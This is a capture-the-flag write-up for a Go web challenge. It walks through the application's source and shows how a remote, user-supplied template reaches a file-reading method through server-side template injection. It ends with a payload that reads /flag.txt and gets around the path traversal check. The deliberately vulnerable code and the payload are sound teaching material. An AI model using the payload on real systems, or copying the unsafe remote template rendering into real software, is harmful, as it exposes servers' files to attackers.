

<font size="5px">GhostlyTemplates</font>

​      12<sup>th</sup> October 2023 / Document No. D23.XX.XX

​      Prepared By: lean

​      Challenge Author(s): lean

​      Difficulty: <font color=orange>Medium</font>

​      Classification: Official

<br>
<br>
<br>
<br>

# [Synopsis](#synopsis)

* Golang templates SSTI to LFI.

## Description

* In the dark corners of the internet, a mysterious website has been making waves among the cybersecurity community. This site, known for its Halloween-themed templates, has sparked rumors of an eerie secret lurking beneath the surface. Will you delve into this dark and spooky webapp to uncover the hidden truth?

## Skills Required

* Basic understanding of websites and HTTP.
* Basic understanding of template engines.
* Basic understanding of golang.

## Skills Learned

* Performing SSTI.
* Performing LFI.

# [Solution](#solution)

## Application Overview



This application provides us some global values and allows us to render our own remote templates.

There are 2 endpoints registered excluding `/static` which only serves static files.

These are `getIndex` for `/` and `getTpl` for `/view`, lets have a look at them.

#### getIndex

```go
func getIndex(w http.ResponseWriter, r *http.Request) {
	http.Redirect(w, r, "/view?page=index.tpl", http.StatusMovedPermanently)
}
```

This function just redirects the client to `/view` with the **page** get parameter se to "index.tpl".

#### getTpl

```go

func getTpl(w http.ResponseWriter, r *http.Request) {
	var page string = r.URL.Query().Get("page")
	var remote string = r.URL.Query().Get("remote")

	if page == "" {
		http.Error(w, "Missing required parameters", http.StatusBadRequest)
		return
	}

	reqData := &RequestData{}

	userIPCookie, err := r.Cookie("user_ip")
	clientIP := ""

	if err == nil {
		clientIP = userIPCookie.Value
	} else {
		clientIP = strings.Split(r.RemoteAddr, ":")[0]
	}

	userAgent := r.Header.Get("User-Agent")

	locationInfo, err := reqData.GetLocationInfo("https://freeipapi.com/api/json/" + clientIP)

	if err != nil {
		http.Error(w, "Could not fetch IP location info", http.StatusInternalServerError)
		return
	}

	reqData.ClientIP = clientIP
	reqData.ClientUA = userAgent
	reqData.ClientIpInfo = *locationInfo
	reqData.ServerInfo.Hostname = GetServerInfo("hostname")
	reqData.ServerInfo.OS = GetServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
	reqData.ServerInfo.KernelVersion = GetServerInfo("uname -r")
	reqData.ServerInfo.Memory = GetServerInfo("free -h | awk '/^Mem/{print $2}'")

	var tmplFile string

	if remote == "true" {
		tmplFile, err = readRemoteFile(page)

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	} else {
		if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}

		tmplFile = reqData.OutFileContents(TEMPLATE_DIR + "/" + page)
	}

	tmpl, err := template.New("page").Parse(tmplFile)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}

	err = tmpl.Execute(w, reqData)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}
}
```

This is the main function we are interested at.

At the beginning 2 variables defined for the get paramaters **page** and ***remote**.
If **page** is not provided the request is terminated.

```go
var page string = r.URL.Query().Get("page")
var remote string = r.URL.Query().Get("remote")

if page == "" {
    http.Error(w, "Missing required parameters", http.StatusBadRequest)
    return
}
```

A struct of type `RequestData` named `reqData` is defined, then a variable is defined with the value of a set cookie with name **user_ip**, if it does not exist it gets asigned the value of the request ip.

```go
reqData := &RequestData{}

userIPCookie, err := r.Cookie("user_ip")
clientIP := ""

if err == nil {
    clientIP = userIPCookie.Value
} else {
    clientIP = strings.Split(r.RemoteAddr, ":")[0]
}
```

`RequestData` is a struct defined at the beginning of the program and it's supposed to hold info about the current request.

Also the `LocationInfo` and `MachineInfo` are defined right before.

```go
type LocationInfo struct {
	Status      string  `json:"status"`
	Country     string  `json:"country"`
	CountryCode string  `json:"countryCode"`
	Region      string  `json:"region"`
	RegionName  string  `json:"regionName"`
	City        string  `json:"city"`
	Zip         string  `json:"zip"`
	Lat         float64 `json:"lat"`
	Lon         float64 `json:"lon"`
	Timezone    string  `json:"timezone"`
	ISP         string  `json:"isp"`
	Org         string  `json:"org"`
	AS          string  `json:"as"`
	Query       string  `json:"query"`
}

type MachineInfo struct {
	Hostname      string
	OS            string
	KernelVersion string
	Memory        string
}

type RequestData struct {
	ClientIP     string
	ClientUA     string
	ServerInfo   MachineInfo
	ClientIpInfo LocationInfo `json:"location"`
}
```

3 functions are also inherited to `RequestData`.

`GetLocationInfo` which returns location info about a given ip that is to be concatenated inside the **endpointURL** parameter.

```go
func (p RequestData) GetLocationInfo(endpointURL string) (*LocationInfo, error) {
	resp, err := http.Get(endpointURL)
	if err != nil {
		return nil, err
	}

	defer resp.Body.Close()

	if resp.StatusCode != http.StatusOK {
		return nil, fmt.Errorf("HTTP request failed with status code: %d", resp.StatusCode)
	}

	body, err := io.ReadAll(resp.Body)
	if err != nil {
		return nil, err
	}

	var locationInfo LocationInfo
	if err := json.Unmarshal(body, &locationInfo); err != nil {
		return nil, err
	}

	return &locationInfo, nil
}
```

`IsSubdirectory` which is for checking if a given **path** is subdirectory of a given **basePath**

```go
func (p RequestData) IsSubdirectory(basePath, path string) bool {
	rel, err := filepath.Rel(basePath, path)
	if err != nil {
		return false
	}
	return !strings.HasPrefix(rel, ".."+string(filepath.Separator))
}
```

`OutFileContents` which returns the contents of a given `filePath` as a string.

```go
func (p RequestData) OutFileContents(filePath string) string {
	data, err := os.ReadFile(filePath)
	if err != nil {
		return err.Error()
	}
	return string(data)
}
```

Continuing with `getTpl`, the user-agent is read from the corresponding header and location info about **user_ip** is set to `reqData`.
Also `ip address`, `user-agent` and some info about the server are set to `reqData`.

```go
userAgent := r.Header.Get("User-Agent")

locationInfo, err := reqData.GetLocationInfo("https://freeipapi.com/api/json/" + clientIP)

if err != nil {
    http.Error(w, "Could not fetch IP location info", http.StatusInternalServerError)
    return
}

reqData.ClientIP = clientIP
reqData.ClientUA = userAgent
reqData.ClientIpInfo = *locationInfo
reqData.ServerInfo.Hostname = GetServerInfo("hostname")
reqData.ServerInfo.OS = GetServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
reqData.ServerInfo.KernelVersion = GetServerInfo("uname -r")
reqData.ServerInfo.Memory = GetServerInfo("free -h | awk '/^Mem/{print $2}'")
```

Then the variable **tmplFile** is initiated.

If the **remote** parameter was equal to "true" the `readRemoteFile` function is used to fetch a remote file using http and output it's contents to **tmpFile**.

```go
func readRemoteFile(url string) (string, error) {
	response, err := http.Get(url)
	if err != nil {
		return "", err
	}

	defer response.Body.Close()

	if response.StatusCode != http.StatusOK {
		return "", fmt.Errorf("HTTP request failed with status code: %d", response.StatusCode)
	}

	content, err := io.ReadAll(response.Body)
	if err != nil {
		return "", err
	}

	return string(content), nil
}
```

```go
if remote == "true" {
    tmplFile, err = readRemoteFile(page)

    if err != nil {
        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
        return
    }
```

Otherwise the inherited `IsSubdirectory` function is called using `reqData` and checks if **page** is a subdirectory of **TEMPLATE_DIR** thus checking for path traversal, if that check is passed the inherited `IsSubdirectory` function is called to set **tmpFile** to the contents of the file given from **page**.

```go
} else {
    if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
        return
    }

    tmplFile = reqData.OutFileContents(TEMPLATE_DIR + "/" + page)
}
```

Now **tmpFile** is rendered using golang's `html/template` package and returned in the response.

## SSTI exploitation

Since we can render our own templates we can test for an SSTI attack.

We can do this by creating a text file calling any of the variables attached to `reqData`:

```
{{ .ClientIP }}
{{ .ClientUA }}
{{ .ClientIpInfo.IpVersion }}
{{ .ClientIpInfo.IpAddress }}
{{ .ClientIpInfo.Latitude }}
{{ .ClientIpInfo.Longitude }}
{{ .ClientIpInfo.CountryName }}
{{ .ClientIpInfo.CountryCode }}
{{ .ClientIpInfo.TimeZone }}
{{ .ClientIpInfo.ZipCode }}
{{ .ClientIpInfo.CityName }}
{{ .ClientIpInfo.RegionName }}
{{ .ClientIpInfo.Continent }}
{{ .ClientIpInfo.ContinentCode }}
{{ .ServerInfo.Hostname }}
{{ .ServerInfo.OS }}
{{ .ServerInfo.KernelVersion }}
{{ .ServerInfo.Memory }}
```

Uploading it to a webserver and entering that url in the text input will render our data.
 
But how can we get the flag?

As explained in [this](https://www.onsecurity.io/blog/go-ssti-method-research/) post, as long as the template that is rendered is user controlled any arbitrary function that inherits to the request context can be called. This looks alot like our edge case since we can speciffy the **remote** parameter to provide our own hosted templates.

We can create a payload where we call `OutFileContents` thus bypassing the traversal check and getting the contents of `flag.txt`.

```
{{ .OutFileContents "/flag.txt" }}
```